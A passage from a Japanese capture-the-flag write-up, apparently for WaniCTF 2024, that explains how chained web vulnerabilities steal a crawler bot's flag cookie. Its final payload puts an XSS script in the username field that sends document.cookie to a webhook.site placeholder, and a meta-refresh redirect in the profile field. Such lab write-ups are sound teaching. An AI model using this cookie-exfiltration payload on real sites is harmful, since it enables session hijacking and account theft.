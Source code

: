 あとは Webhook を使い、これらの脆弱性を組み合わせてクローラーのフラグを手に入れます。

https://webhook.site/

注意する点はクローラーがフラグを保存するのは `http://app:8080/` に対してということです。これはソースコードと docker-compose を見るとわかります。

まとめると次のペイロードになります。

Username: ``<script>fetch(`(webhook)?cookie=${document.cookie}`)</script>``
Profile: `<meta http-equiv="refresh" content="0;url=http://app:8080/username/(id)"/>`

![](/images/wani2024-writeup/8.png)